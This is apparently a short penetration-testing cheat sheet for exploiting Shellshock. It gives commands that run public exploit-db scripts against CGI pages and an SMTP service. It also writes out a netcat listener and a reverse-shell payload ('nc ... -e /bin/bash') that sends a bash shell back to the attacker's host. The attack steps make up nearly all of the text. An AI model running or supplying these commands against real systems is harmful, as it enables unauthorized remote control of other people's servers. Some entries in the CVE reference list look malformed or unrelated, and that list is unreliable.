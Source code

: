 ### shellshock using mod_cgi
```
python 34900.py payload=reverse rhost=<rhost> rport=<rport> lhost=<lhost> lport=<lport> pages=<path/cgi-bin/file>.cgi
```

### References
https://www.exploit-db.com/exploits/34900  
CVE-2014-6278  




### prepare exploit for SMTP
```
vim 34896.py
```

### insert:
```
data = netFormat("helo <domain>")
data = netFormat("mail from: <sender>")
data = netFormat("rcpt to: <recipient>")
```

### start listener
```
nc -vlp <lport>
```

### exploit
```
python2 34896.py <rhost> "nc <lhost> <lport> -e /bin/bash"
```

### References
https://www.exploit-db.com/exploits/34896  
CVE-2014-3659  
CVE-2014-3671  
CVE-2014-62771  
CVE-2014-7169  
CVE-2014-7196  
CVE-2014-7227  
CVE-2014-7910  

